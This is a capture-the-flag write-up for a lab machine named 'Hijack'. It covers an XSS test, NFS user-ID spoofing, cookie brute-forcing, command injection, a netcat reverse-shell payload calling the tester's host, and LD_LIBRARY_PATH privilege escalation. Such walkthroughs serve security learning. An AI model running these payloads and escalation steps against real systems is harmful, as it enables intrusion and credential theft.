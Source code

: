 # Hijack

### Deploy the machine and get the flags!
Initial scan finds ports 21,22,80,111,2049,35287,41763,47944,49228 open.<br />
After further enumeration, I found that the `username` parameter is vulnerable to XSS. To prove it, I tried using `"><script>alert(1)</script>`, and it worked:<br />
![image](https://github.com/user-attachments/assets/556f544c-3bd3-4857-a0cf-f4aa1832e42e)<br />
I then checked the nfs service, the command to mount the shared file system is `sudo mount -t nfs 10.10.246.225:/mnt/share mount -o nolock`<br />
However only user with ID=1003 can access the shared filesystem.<br />
![image](https://github.com/user-attachments/assets/d84ec36c-483b-4c3f-a340-3b988fa4d12b)<br />
So we need to create another user with ID=1003 with `sudo useradd -u 1003 hijack`. Give a password to that user with `sudo passwd hijack`
After logging with the new user, I found some FTP credentials:<br />
![image](https://github.com/user-attachments/assets/762f5a5e-ebee-4a1c-97f9-a2bf1db0456f)<br />
Remember to remove the user with `sudo userdel hijack`. So I logged in the FTP server and found some other files:<br />
![image](https://github.com/user-attachments/assets/a3237956-df3d-4696-956c-0639f520f66d)<br />
The `passwords_list.txt` file contains, guess what, a list of complex passwords. I think I need to use this list to bruteforce something. So I tried bruteforcing the login page to access the administration panel. 
If you examine the cookie, you can see it's a base64 encoded string with the following format: `user:MD5_hashed_password`. So since we know that a user called `admin` exists, and we have the password list, then we have every ingredient to bruteforce logins.
To do that, I created (thanks, Mr. GPT), a python script called `brutecookie.py` that you can find inside this folder. Remember to change the parameters according to your instance before executing the script.<br />
![image](https://github.com/user-attachments/assets/c9ab8a6d-a882-4a69-9eb2-5298f9d37f4d)<br />
Great, we can now login using this password!<br />
![image](https://github.com/user-attachments/assets/67e4bff7-e207-4bfa-889c-f51bdc05c73f)<br />
It seems like a page to check which services exists on the host. So my guess is that it executes something like `systemctl status example.service`. So I immediatly tought of command injection. `;` gets detected, then I tried `example && whoami` and it worked!<br />
![image](https://github.com/user-attachments/assets/71ccdabd-303e-4378-baf7-483db20e0282)<br />
Time to get a reverse shell. Open a nc listener and run use the following payload `& busybox nc 10.11.108.100 4444 -e sh`.<br />
I immediately found credentials inside `confing.php`:<br />
![image](https://github.com/user-attachments/assets/de2653f1-c3f3-4de4-9502-3117292f4123)<br />
They look like mysql credentials, and I think they are, but I used them to access rick's account through ssh and get the first flag. <br />
Running `sudo -l` we get the following:<br />
![image](https://github.com/user-attachments/assets/a55d25fe-2c56-4435-8deb-e636213e3087)<br />
We can execute a binary called `apache2` and have also access to the LD_LIBRARY_PATH. LD_LIBRARY_PATH allows us to specify where the program should go look for shared libraries/objects first. So the idea is to take the name of any of the libraries used by the `apache2` binary, and create a malicious script with that exact name inside a folder that we have access to. <br /> Run `ldd /usr/sbin/apache2` to see the shared object used by the binary.
I'm gonna take `libdl.so.2`. So, first of all, create the malicious .c file; you can find it inside this folder, called `exploit.c`. Then, compile it using the following command: `gcc -o /tmp/libdl.so.2 -shared -fPIC exploit.c`. Then, run the binary after setting the evnvironment variable, with the following command: `sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2`:<br />
![image](https://github.com/user-attachments/assets/b32556c3-a386-4c53-92b7-c6a704b5e511)<br />

